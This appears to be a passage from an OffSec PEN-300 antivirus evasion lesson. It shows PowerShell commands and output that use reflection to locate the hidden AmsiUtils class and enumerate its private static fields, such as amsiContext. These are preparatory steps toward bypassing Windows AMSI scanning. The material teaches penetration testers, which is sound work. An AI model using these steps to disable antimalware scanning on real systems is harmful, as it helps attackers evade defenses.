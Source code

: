 ```
PS C:\Users\Offsec> $a=[Ref].Assembly.GetTypes()

PS C:\Users\Offsec> Foreach($b in $a) {if ($b.Name -like "*iUtils") {$b}}

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
False    False    AmsiUtils                                System.Object
```

> Listing 32 - Getting all types and filtering them

Armed with a handle to the _AmsiUtils_ class, we can now invoke the _GetFields_[6](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_314-6) method to enumerate all objects and variables contained in the class. Since _GetFields_ accepts filtering modifiers, we'll apply the _NonPublic_ and _Static_ filters to help narrow the results:

```
PS C:\Users\Offsec> Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}

PS C:\Users\Offsec> $c.GetFields('NonPublic,Static')


Name                   : amsiContext
MetadataToken          : 67114374
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Private, Static
FieldType              : System.IntPtr
MemberType             : Field
ReflectedType          : System.Management.Automation.AmsiUtils
DeclaringType          : System.Management.Automation.AmsiUtils
Module                 : System.Management.Automation.dll
IsPublic               : False
IsPrivate              : True
IsFamily               : False
IsAssembly             : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsStatic               : True
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsSpecialName          : False
IsPinvokeImpl          : False
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}
...
```

> Listing 33 - Enumerating stored objects in AmsiUtils class
